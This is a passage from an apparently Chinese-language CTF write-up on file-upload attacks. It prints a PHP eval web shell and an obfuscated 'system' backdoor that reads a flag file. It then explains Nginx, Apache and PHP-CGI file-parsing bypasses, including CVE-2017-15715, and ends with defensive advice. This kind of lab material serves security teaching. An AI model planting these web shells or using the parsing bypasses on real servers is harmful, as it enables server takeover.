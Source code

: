 直接上传zip后修改代码

```
<?=eval($_POST[x]);?>
```

## web168

免杀后门

```
<?php $a='syste';$b='m';$c=$a.$b;$c('tac ../flagaa.php');?>
```

# 文件解析漏洞

https://www.cnblogs.com/-qing-/p/11032963.html#_label0

nginx 0.83 /1.jpg%00php apahce 1x 或者 2x 当 apache 遇见不认识的后缀名，会从后向前解析例如 1.php.rar 不认识 rar 就向前解析，直到知道它认识的后缀名。 

php cgi 漏洞(nginx iis7 或者以上) 上传图片后 1.jpg。访问 1.jpg/1.php 也会解析成php。

Apache HTTPD 换行解析漏洞（CVE-2017-15715） apache通过 mod_php来运行脚本，其 2.4.0-2.4.29中存在apache 换行解析漏洞，在解析php时xxx.php\x0A 将被按照 PHP 后缀进行解析，导致绕过一些服务器的安全策略

# 防御

服务器端使用白名单防御，修复 web 中间件的漏洞，禁止客户端存在可控参数，存放文件目录禁止脚本执行，限制后缀名 一定要设置图片格式 jpg、gif 、png 文件名随机的，不可预测
